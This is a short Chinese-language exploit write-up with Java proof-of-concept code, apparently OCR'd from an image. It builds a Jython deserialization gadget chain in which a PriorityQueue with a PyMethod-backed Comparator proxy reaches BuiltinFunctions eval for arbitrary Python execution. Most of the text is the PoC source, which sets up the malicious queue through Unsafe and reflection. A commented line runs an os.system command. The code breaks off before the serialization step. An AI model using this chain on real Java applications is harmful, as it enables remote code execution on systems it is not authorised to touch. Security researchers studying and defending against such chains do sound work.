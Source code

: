前半部分的触发就是利用 PriorityQueue 的 heapify 触发比较器的 compare 方法，而把比较器设置为代理类，就能触发比较器的 invoke 方法。  
构建一个PyMethod的代理类，接口类型为Comparator，在反序列化队列时，触发代理类compare方法的调用，从而进入到PyMethod#invoke里。然后就是后续构造BuiltinFunctions和pystring

几个点：

1.  创建 PyMethod 的代理类，设置接口类型为 Comparator
2.  org.python.core.BuiltinFunctions 的 index 需要是 18，触发 eval
3.  pymethod 的 im\_class type 需要是 pyargs 所指定的 type，否则 checkSelf 方法无法通过

最终的 poc

```bash
package org.example;  

import org.python.core.*;  
import sun.misc.Unsafe;  

import java.io.*;  
import java.lang.reflect.Field;  
import java.lang.reflect.Proxy;  
import java.util.Comparator;  
import java.util.HashMap;  
import java.util.PriorityQueue;  

public class Main {  
    public static void main(String[] args) throws Exception {  
        Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");  
        unsafeField.setAccessible(true);  
        Unsafe unsafe = (Unsafe) unsafeField.get(null);  

        PyMethod pyMethod = (PyMethod) unsafe.allocateInstance(PyMethod.class);  

        PyObject builtinFunctions = (PyObject) unsafe.allocateInstance(Class.forName("org.python.core.BuiltinFunctions"));  

        Field index = builtinFunctions.getClass().getSuperclass().getDeclaredField("index");  
        index.setAccessible(true);  
        index.set(builtinFunctions, 18);  

        pyMethod.__func__ = builtinFunctions;  
        pyMethod.im_class = new PyString().getType();  
        HashMap<Object, PyObject> _args = new HashMap<>();  
        _args.put("rs", new PyString("print('Hello World')")); 
        //_args.put("rs", new PyString("import os;\nos.system('open -a /System/Applications/Calculator.app')")); 

        PyStringMap locals = new PyStringMap(_args);  
        Object[] queue = new Object[] {  
                new PyString("__import__('code').InteractiveInterpreter().runcode(rs)')"),
                locals,
        };  

        // create dynamic proxy  
        Comparator o = (Comparator) Proxy.newProxyInstance(Main.class.getClassLoader(),  
                new Class[]{Comparator.class},  
                pyMethod);  

        // set comparator  
        PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, o);  

        Field f = priorityQueue.getClass().getDeclaredField("queue");  
        f.setAccessible(true);  
        f.set(priorityQueue, queue);  
        Field f2 = priorityQueue.getClass().getDeclaredField("size");  
        f2.setAccessible(true);  
```